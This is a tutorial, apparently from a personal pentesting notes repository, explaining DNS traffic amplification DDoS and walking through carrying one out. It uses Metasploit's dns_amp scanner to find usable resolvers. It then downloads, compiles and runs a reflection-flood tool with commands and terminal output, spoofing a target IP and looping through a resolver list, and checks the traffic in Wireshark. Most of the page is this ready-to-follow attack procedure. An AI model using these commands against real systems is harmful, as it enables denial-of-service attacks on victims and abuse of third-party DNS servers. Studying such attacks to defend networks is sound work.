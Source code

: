 # What is DNS Traffic Amplification?
A DNS (Traffic) Amplificaton attack is a popular form of a distributed denial of service (DDoS) attack, which abuses open DNS resolvers to flood a target system with DNS response traffic. It's called an *amplification* attack because it uses DNS responses to upscale the size of the data sent to the victim.

# How does it work?
An attacker sends a DNS name lookup to an open resolver with the source IP spoofed to be the victim's IP address. That way, any response traffic would be sent to the victim and not the attacker. The requests submitted by the attacker usually aim to query for as much information as possible in order to maximise the amplification effect. In most cases, the queries sent are of type `ANY` which requests all known information about a particular DNS zone. Using a botnet, it's easy to create immense amounts of traffic. It is also rather difficult to protect against these attacks because the traffic is coming from legitimate sources - real DNS servers.

# Conducting a DNS Traffic Amplification Attack
### Testing a DNS server for attack surface
We should first check if a DNS Traffic Amplification is possible and if it's viable. We can do this through [Metasploit]() using the module `auxiliary/scanner/dns/dns_amp`.

![](Resources/Images/msf6-dns-amp.png)

In the `RHOSTS` you need to put the IP of the name server you want to test. *This module will tell you if a name server can be used in an amplification attack but won't actually execute the attack.*

Run the scanner:

![](Resources/Images/msf6-dns-amp-sc-run.png)

### Executing the attack
A simple tool is available only as a proof of concept [here](https://github.com/rodarima/lsi/blob/master/entrega/p2/dnsdrdos.c). You will need to download and then compile it:
```bash
wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
```
```bash
gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```
```bash
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ wget https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
--2021-09-21 13:01:11--  https://raw.githubusercontent.com/rodarima/lsi/master/entrega/p2/dnsdrdos.c
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.109.133, 185.199.111.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.109.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 15109 (15K) [text/plain]
Saving to: ‘dnsdrdos.c’

dnsdrdos.c                                                  100%[========================================================================================================================================>]  14.75K  --.-KB/s    in 0.001s  

2021-09-21 13:01:11 (17.9 MB/s) - ‘dnsdrdos.c’ saved [15109/15109]

┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ gcc -o dnsdrdos dnsdrdos.c -Wall -ansi
```

Now, create a file containing the IP's of each DNS server you want to use in the attack (only one IP per line). Use the following syntax to run the attack:
```bash
sudo ./dnsdrdos -f <dns servers file> -s <target IP> -d <domain> -l <number of loops through the list>
```
```bash
┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$ sudo ./dnsdrdos -f dns_servers -s 192.168.129.2 -d nsa.gov -l 30
-----------------------------------------------    
dnsdrdos - by noptrix - http://www.noptrix.net/    
-----------------------------------------------

┌──(backslash0@kali)-[~/MHN/DNS]-[]
└─$
```

The output may be empty, but the packets were sent. You can verify this with `wireshark`:

![](Resources/Images/dnsdrdos-wireshark.png)
